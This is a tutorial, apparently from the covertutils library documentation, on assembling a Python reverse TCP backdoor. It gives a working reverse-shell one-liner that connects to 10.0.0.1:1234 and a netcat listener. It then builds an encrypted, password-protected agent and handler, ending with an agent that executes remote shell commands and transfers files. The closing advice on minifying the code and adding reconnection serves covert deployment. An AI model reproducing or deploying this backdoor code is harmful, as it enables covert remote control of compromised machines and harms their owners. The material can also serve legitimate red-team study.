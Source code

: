 Assembling a Backdoor **from Scratch** - *The Tutorial*
=======================================================




For Starters - Without `covertutils`
------------------------------------


The simplest possible reverse TCP shell in `Python` is the one below:

Agent
+++++

.. code:: python

	import socket,subprocess,os
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"]);

Source is the everlasting PentestMonkey_ .

.. _PentestMonkey : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


When these commands run on the compromised host a reverse TCP connection spawns towards `10.0.0.1:1234`. The compromised host then maps all input and output of this TCP connection to a process, started by the ``/bin/sh`` binary.

So the other side of the TCP connection directly interacts with the remote process (which happens to be `a shell`).
But I bet that you know all that.



So this code snippet above is the `Agent`. Moving on...



Handler
+++++++

.. code:: bash

	$ nc -nlvp 1234

The `Handler` just needs to accept the TCP connection. Sending any data through that connection will result into running them in the remote `shell` process.


So, the ingredients of this backdoor are the following:

 - `Agent`: The Python code
 - `Handler` : The ``netcat`` bind listen command
 - `Communication Channel` : TCP connection
 - `Commands` : `plaintext` shell commands and responses come and go


Main Course - With `covertutils`
--------------------------------


Let's remake a `reverse TCP shell`, but that time using `covertutils`.

Agent
+++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

First we are gonna need an ``Orchestrator`` object. This will **password-protect our communication**, providing us fixed-size byte arrays. Those bytes can be transmitted in any way, plus recognized **amongst random data**.

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		)


Done. Now we are sure that all byte arrays leaving our side will have a fixed length of 20 bytes (even if we send a plain ``whoami`` command which consists of 6 bytes). This is in case we need to fit them somewhere where a fixed bytelength is needed...

We also have to be sure that every byte array arriving to our side is also of 20 bytes exactly.

Finally, the arrays are `crypto-scrambled` using derivatives of our `passphrase`, so they will look gibberish to anyone that doesn't have that `passphrase`.

Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

Then, we have to provide wrappers for the `Communication Channel`. TCP that is. So, making a ``send( data )`` and a ``recv()`` blocking function will be dead simple:

.. code:: python

	import socket
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))

	def send( data ) :
		s.send( data )

	def recv() :
		return s.recv(4096)	# This will automatically block as socket.recv() is a blocking method


All set. Special needs on data that will go through the wire can be coded in those functions too!

For example, if we need all data to travel in ``base64``, then we create the ``send( data )`` and ``recv()`` as below:

.. code:: python

	import codecs

	def send( data ) :
		s.send( codecs.encode( data, 'base64') )	# Data will travel in Base64

	def recv() :
		data = s.recv(4096)
		return codecs.decode( data, 'base64')	# Raw bytes will be finally received


.. note:: This won't affect the ``SimpleOrchestrator``'s byte length assertion of 20 bytes, as the ``recv()`` function decodes the data to the original byte length.


Feature Step
^^^^^^^^^^^^

Now, that `Data Orchestration` and `Communication Channel` are all set, we need to define the features of this backdoor!

So, let's make some cool stuff using the ``BaseHandler`` first !



.. code:: python

	from covertutils.handlers import BaseHandler

	class MyAgent_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyAgent_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Agent with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ("[>] Sending the received message in reverse order!")
			self.preferred_send( message[::-1] )	# Will respond with the reverse of what was received!

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


Those methods will be called **automatically** by an internal thread (no need to start it manually), so anything written to their bodies will run when circumstances meet.


Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^


.. code :: python

	handler_obj = MyAgent_Handler(recv, send, orch_obj)

	from time import sleep

	while True : sleep(10)


**Done!**

Once this script runs, and the ``MyAgent_Handler`` gets instantiated, it will listen to the TCP connection (`internal thread magic`) and run the ``on*`` methods automatically.

As all backdoor functionality is implemented in those methods (sending back the received messages reversed - `reverse echo`), our **Agent is FINISHED!**


With such agent we can't have a simple ``netcat`` `Handler` though... We need something bigger. Let's jump to it...


Handler
+++++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

Same stuff:

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		reverse = True,	# <-------
		)

Just do not forget the ``reverse = True`` argument to create the `complementary` encryption keys and stuff. This is **all internal**, no need to care.


.. warning :: Oh, and passing a different `passphrase` will result in your backdoor not working. I bet you could see that coming!


Pretty straightforward, moving one...


Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

As we have a `Reverse TCP` connection, our `Handler` must be a `TCP listener`.

Pure python socket magic ahead:

.. code ::

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)	# To make the port immediately available after killing - gimmick
	s.bind( addr )
	s.listen(5)

	client, client_addr = s.accept()



And our wrappers:


.. code ::


	def recv () :		# Create wrappers for networking
		return client.recv( 50 )

	def send( raw ) :		# Create wrappers for networking
		return client.send( raw )



Feature Step
^^^^^^^^^^^^

.. code:: python

	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ( "[<] Original Message {}".format(message[::-1]) ) # <-------

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


So the plan is that for `PoC purposes` the `Agent` will read all messages sent to it and respond with their `reversed` form.
The `Handler` though, will display to the user the reversed form of what it received, finally printing the original message.




Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^

.. code :: python

	handler_obj = MyHandler_Handler(recv, send, orch_obj)

This time we need to interact with the ``handler_obj`` instance, in order to actually send stuff to our `Agent`.
For that we can use the :meth:`preferred_send` method of the :class:`BaseHandler` class which honors the `Behavior` of the `Handler` object (more on this at :ref:`behaviors`).




.. code :: python


	try: input = raw_input	# Python 2/3 nonsense
	except NameError: pass	# (fuck my life)

	while True :
		inp = input("~~~> ")
		if inp :
			handler_obj.preferred_send( inp )


Here we got a custom shell that gets user input and sends it over.

There is a vastly better way but I'll leave it for **Dessert**.


Dessert - Real Life Backdoor With `covertutils`
-----------------------------------------------


Here we will use the goodies that are found in the ``impl`` sub-packages to snip away most of the code while actually adding functionality!


Agent
+++++

The `Orchestration Step` is boringly same. Blah, blah `encryption`, blah blah `chunks`, blah...

The same goes for `Communication Channel Step`. It's a TCP connection. No magic there.

Let's move to the juicy part!


Feature Step
^^^^^^^^^^^^

Let's make our backdoor to actually run shell commands! We could do that by hand, with:

.. code:: python

	import os

	# [...] Handler Class definition

		def onMessage(self, stream, message) :
			resp = os.popen(message).read()

	# [...] Overriding rest of the on*() methods


And sending the response back to the `Handler` would be as easy as:

.. code:: python

	import os

	# [...] Handler Class definition

		def onMessage(self, stream, message) :
			resp = os.popen(message).read()
			self.preferred_send(resp)	# <-------

	# [...] Overriding rest of the on*() methods


**But**

The class ``ExtendableShellHandler`` (docs @ :class:`covertutils.handlers.impl.extendableshell.ExtendableShellHandler`) does provide:

 - OS shell commands
 - Python remote interpretation in the stage module API (see: :ref:`stage_api_page`)
 - `File upload/download` functionality
 - Extendability through the `module staging system` (see: :ref:`stages_page`)
 - Agent Control stream, for `OTP key resetting` and `connection reclaiming`

All above things will run on different `Streams` (see: :ref:`streams_arch`), meaning that they will have different OTP keys.

Plus all those will be done **without the need to make an inheriting class** (as it is in ``impl`` subpackage)!

.. note:: That is except when you need any behaviors `Handler` classes - see: :ref:`behaviors`. If that is the case you can create a class inheriting both from ``ExtendableShellHandler`` and a behavior `Handler` class (e.g. ``InterrogatingHandler`` class - Docs @ :class:`covertutils.handlers.interrogating.InterrogatingHandler`). **Multiple Inheritance Rocks!**


So the code would be like:

.. code:: python

	from covertutils.handlers.impl import ExtendableShellHandler

	ext_handler_obj = ExtendableShellHandler(recv, send, orch_obj)

	from time import sleep

	while True : sleep(10)


Let's go to the `Handler` and ask for the `Check`...


Handler
+++++++


Same boring stuff for `Orchestration Step` and `Communication Channel Step`.



Feature Step
^^^^^^^^^^^^

The `Handler` part here shouldn't change too.

.. code:: python

	# ========== Completely Unchanged ==========
	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ( "[<] Original Message {}".format(message[::-1]) )	# <-------

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()
	# ==========================================

It has to be instantiated as well:


.. code :: python

	handler_obj = MyHandler_Handler(recv, send, orch_obj)


But here we will do a lil' change. We won't use that shitty ``[raw_]input`` shell! There are great shell alternatives in :mod:`covertutils.shell.impl`, perfectly pairing with classes in the :mod:`covertutils.handlers.impl` sub-package.

For the ``ExtendableShellHandler`` that is running in the other side, the ``ExtendableShell`` (Docs @ :class:`covertutils.shells.impl.extendableshell.ExtendableShell` will fit just great!

It provides all needed support to interact with the awaiting `Agent`, by using the SubShells corresponding to ``ExtendableShellHandler`` preloaded `stage modules`.


**AND**

As the ``ExtendableShell`` handles all `printing to the screen` the ``MyHandler_Handler`` class can be as `barebones` as:

.. code :: python

	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )

		def onMessage( self, stream, message ) :	pass

		def onChunk( self, stream, message ) :	pass

		def onNotRecognised(self) :	pass




And the code for instantiation looks like this:


.. code :: python

	shell = ExtendableShell(handler_obj, prompt = "MyFirst {package} Shell> ")
	shell.start()





The Check
---------


Congrats hoodie guy! You made your first `Reverse TCP Backdoor`!

Throw in some `parameterization` (**un-hardcode** `passphrase` and addresses), `code minification` (pyMinify_ that code) and `connection re-attempt mechanism` (see :ref:`rev_tcp`), and you are done!

**This will cost you 0$ sir...**

.. _pyMinify : https://liftoff.github.io/pyminifier/


*Be polite enough to `share your creations`. Or at least sell them `for the same price`...
